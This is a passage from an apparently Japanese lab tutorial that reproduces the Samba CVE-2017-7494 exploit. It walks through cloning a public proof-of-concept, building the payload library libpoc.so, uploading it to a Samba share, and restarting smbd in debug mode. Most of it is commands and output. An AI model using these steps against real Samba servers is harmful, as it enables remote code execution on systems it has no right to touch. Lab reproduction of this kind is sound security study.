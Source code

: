 　接続元のカレントディレクトリに「Sample.txt」がある場合に、ファイルのアップロード
```
smb: \> put Sample.txt
smb: \> ls Sample.txt
  Sample.txt                          A        0  Tue May 30 23:50:43 2017
```

## PoCを試してみる 
 
攻撃側のGit等のツールはインストール済みの状態から初めてみます。  
ここからはPoCを実行する「攻撃側」、Sambaが動作している「Samba側」を分けて記述していきます。  

こちらのPoCを利用します。  
[https://github.com/omri9741/cve-2017-7494:embed:cite]  

##### 攻撃側

　アップロードする共有ライブラリの準備を行っていきます。
```
$ git clone https://github.com/omri9741/cve-2017-7494.git
$ cd cve-2017-7494/
$ python --version
Python 2.7.9
$ pip install -r requirements.txt

$ cd payload
$ chmod +x build.sh
$ ./build.sh
$ ls libpoc.so
libpoc.so
$ cd ..
$ mv payload/libpoc.so .
```

　読み込ませる共有ライブラリをSambaの共有領域内に配置します。

```
$ smbclient --user=samba //163.XXX.XXX.XXX/homes
Enter samba's password:
Domain=[MYGROUP] OS=[Windows 6.1] Server=[Samba 4.5.9]

smb: \> put libpoc.so
putting file libpoc.so as \libpoc.so (1918.9 kb/s) (average 1918.9 kb/s)
```

##### Samba側

　libpoc.soが配置されていることを確認します。  
さらに、今回はPoCが実行されることを確認しやすいように、Sambaはデバッグモードで起動します。  
　これでSambaが動作中にどのようなモジュールを読み込むのかなどを確認することができます。
```
$ ls -l /home/samba/libpoc.so
-rwxr-xr-x 1 samba samba 5895  5月 31 00:10 2017 /home/samba/libpoc.so

# Sambaを停止
$ pkill smbd

# デバッグモードでSambaを起動
$ sbin/smbd -i --debuglevel=10
```
